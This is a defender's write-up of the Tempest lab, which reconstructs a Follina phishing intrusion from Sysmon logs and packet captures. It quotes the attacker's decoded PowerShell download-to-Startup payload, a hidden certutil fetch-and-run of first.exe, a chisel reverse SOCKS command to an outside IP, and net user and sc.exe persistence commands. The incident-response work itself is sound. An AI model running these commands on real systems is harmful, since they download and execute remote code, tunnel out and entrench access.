





# Case Study: Tempest — Investigating a Phishing-Based Intrusion with Sysmon and PowerShell
The Tempest challenge simulated a phishing attack that led to a full system compromise through a malicious Microsoft Word document.
This case study focused on event log analysis, PowerShell forensics, and correlating Sysmon data to reconstruct the attacker’s steps — from the initial infection vector to privilege escalation and persistence.

---

## Introduction and Environment Setup
I started by connecting to the investigation Windows virtual machine and reviewing the Sysmon, Windows, and PCAP files located in the Incident Files directory.
The investigation centered on identifying how a user named benimaru on host TEMPEST was compromised after opening a suspicious document attachment.
To prepare, I listed all files and generated their SHA256 hashes using PowerShell:

$Files = Get-ChildItem 'C:\Users\user\Desktop\Incident Files'
ForEach($File in $Files) {
    Get-FileHash $File -Algorithm SHA256
}

This confirmed the integrity of the three main evidence files:
- capture.pcapng
- sysmon.evtx
- windows.evtx

---

## Identifying the Malicious Document
By parsing Sysmon event logs, I searched for entries containing .doc references and discovered a suspicious document named free_magicules.doc.
Further review revealed that this file originated from a phishing domain:
- http://phishteam.xyz/02dcf07/free_magicules.doc
Sysmon logs also showed the compromised user and host:
- User: benimaru
- Machine: TEMPEST
The malicious document was opened by Microsoft Word (PID 496), which subsequently initiated a chain of PowerShell and MSDT activity — a key indicator of exploitation.

---

## Discovering the Exploit and Payload Execution
Within Sysmon logs, I found an encoded PowerShell command triggered through the MSDT utility:
- C:\Windows\SysWOW64\msdt.exe ms-msdt:/id PCWDiagnostic /skip force ...
Decoding the Base64 payload revealed:
- $app=[Environment]::GetFolderPath('ApplicationData');
- cd "$app\Microsoft\Windows\Start Menu\Programs\Startup";
- iwr http://phishteam.xyz/02dcf07/update.zip -outfile update.zip;
- Expand-Archive .\update.zip -DestinationPath .;
- rm update.zip;
This confirmed the payload downloaded and extracted additional files into the Startup folder for persistence.
The attack leveraged the MSDT (Follina) vulnerability — CVE-2022-30190 — to execute code remotely without macro execution.

## Persistence and Secondary Payloads
The extracted payload placed a malicious shortcut at:
- C:\Users\benimaru\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\update.lnk
On user login, it executed a PowerShell command to download and run first.exe:
- "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -w hidden -noni certutil -urlcache -split -f 'http://phishteam.xyz/02dcf07/first.exe' C:\Users\Public\Downloads\first.exe; C:\Users\Public\Downloads\first.exe
This file had a SHA256 hash of:
- CE278CA242AA2023A4FE04067B0A32FBD3CA1599746C160949868FFC7FC3D7D8
Sysmon network events showed that first.exe established outbound connections to:
- resolvecyber.xyz:80
indicating a second-stage Command and Control (C2) channel.

## Network Analysis and C2 Behavior
Using Wireshark, I filtered HTTP traffic between the victim IP (192.168.254.107) and attacker IPs (167.71.199.191 / 167.71.222.162).
The captured data revealed Base64-encoded HTTP requests to:
- http://phishteam.xyz/02dcf07/index.html
The binary used parameter q to send encoded results and fetched new commands via:
- /9ab62b5?
using the HTTP GET method.
The User-Agent header indicated the payload was written in Nim.

## Discovery of Credentials and SOCKS Proxy Setup
From decoded traffic, the attacker exfiltrated credentials found in a PowerShell script:
- User: TEMPEST\benimaru
- Password: infernotempest
The attacker used these credentials to explore active connections and open ports — identifying port 5985 (WinRM) for remote shell access.
To maintain access, they deployed a reverse SOCKS proxy using ch.exe, executed with:
- C:\Users\benimaru\Downloads\ch.exe client 167.71.199.191:8080 R:socks
Hash of the binary:
- 8A99353662CCAE117D2BB22EFD8C43D7169060450BE413AF763E8AD7522D2451
Tool identified as: chisel

## Privilege Escalation and Persistence
After lateral movement, the attacker downloaded another tool named spf.exe (hash 8524FBC0D73E711E69D60C64F1F1B7BEF35C986705880643DD4D5E17779E586D) — identified as PrintSpoofer.
It abused the SeImpersonatePrivilege to escalate privileges to SYSTEM.
Then the attacker executed final.exe, which reconnected to the C2 over port 8080.

## Account Creation and Persistence Mechanisms
Once SYSTEM access was achieved, two new user accounts were created:
- shion, shuna
Commands executed:
- net user shion /add
- net user shuna /add
- net localgroup administrators /add shion
Relevant Event IDs:
- 4720 → User account creation
- 4732 → User added to local administrator group
Finally, persistence was established through a malicious service:
C:\Windows\system32\sc.exe \\TEMPEST create TempestUpdate2 binpath= C:\ProgramData\final.exe start= auto

## Lessons Learned
The Tempest challenge provided an excellent full-cycle SOC investigation experience, covering:
- Event correlation using Sysmon and PowerShell.
- Identifying phishing-based delivery and remote code execution (CVE-2022-30190).
- Understanding persistence through startup entries and malicious services.
- Tracking C2 communications and privilege escalation (PrintSpoofer).
- Recognizing attacker TTPs aligned with MITRE ATT&CK tactics:
  -- Execution (T1203)
  -- Persistence (T1547)
  -- Privilege Escalation (T1068)
  -- Defense Evasion (T1070)
This investigation strengthened my ability to analyze real-world intrusion data, extract actionable indicators, and build structured incident response workflows using native Windows telemetry and network captures.
